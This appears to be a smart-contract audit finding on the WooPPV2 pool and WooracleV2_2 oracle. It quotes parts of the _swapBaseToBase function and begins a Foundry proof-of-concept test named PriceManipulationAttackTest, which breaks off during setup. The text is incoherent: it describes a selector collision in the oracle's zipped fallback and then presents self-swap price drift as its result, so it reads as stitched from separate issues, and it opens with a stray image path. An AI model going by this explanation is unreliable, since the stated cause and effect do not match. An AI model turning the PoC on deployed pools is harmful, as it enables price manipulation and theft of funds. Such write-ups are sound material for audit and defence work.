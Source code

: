````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
As a result, swapping ````baseToken```` with itself will cause a net price drift rather than keeping price unchanged.
```solidity
File: contracts\WooPPV2.sol
513:     function _swapBaseToBase(
...
520:     ) private nonReentrant whenNotPaused returns (uint256 base2Amount) {
521:         require(baseToken1 != address(0) && baseToken1 != quoteToken, "WooPPV2: !baseToken1");
522:         require(baseToken2 != address(0) && baseToken2 != quoteToken, "WooPPV2: !baseToken2");
...
527:         IWooracleV2.State memory state1 = IWooracleV2(wooracle).state(baseToken1);
528:         IWooracleV2.State memory state2 = IWooracleV2(wooracle).state(baseToken2);
...
539:             uint256 newBase1Price;
540:             (quoteAmount, newBase1Price) = _calcQuoteAmountSellBase(baseToken1, base1Amount, state1);
541:             IWooracleV2(wooracle).postPrice(baseToken1, uint128(newBase1Price));
...
554:             uint256 newBase2Price;
555:             (base2Amount, newBase2Price) = _calcBaseAmountSellQuote(baseToken2, quoteAmount, state2);
556:             IWooracleV2(wooracle).postPrice(baseToken2, uint128(newBase2Price));
...
578:     }

```

The following coded PoC intuitively shows the problem with a specific case:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test} from "../../lib/forge-std/src/Test.sol";
import {console2} from "../../lib/forge-std/src/console2.sol";
import {WooracleV2_2} from "../../contracts/wooracle/WooracleV2_2.sol";
import {WooPPV2} from "../../contracts/WooPPV2.sol";
import {TestERC20Token} from "../../contracts/test/TestERC20Token.sol";
import {TestUsdtToken} from "../../contracts/test/TestUsdtToken.sol";

contract TestWbctToken is TestERC20Token {
    function decimals() public view virtual override returns (uint8) {
        return 8;
    }
}

contract PriceManipulationAttackTest is Test {
    WooracleV2_2 oracle;
    WooPPV2 pool;
    TestUsdtToken usdt;
    TestWbctToken wbtc;
    address evil = address(0xbad);

    function setUp() public {
        usdt = new TestUsdtToken();
        wbtc = new TestWbctToken();
        oracle = new WooracleV2_2();
        pool = new WooPPV2(address(usdt));

        // parameters reference: Integration_WooPP_Fee_Rebate_Vault.test.ts
        pool.setMaxGamma(address(wbtc), 0.1e18);
        pool.setMaxNotionalSwap(address(wbtc), 5_000_000e6);
        pool.setFeeRate(address(wbtc), 25);
````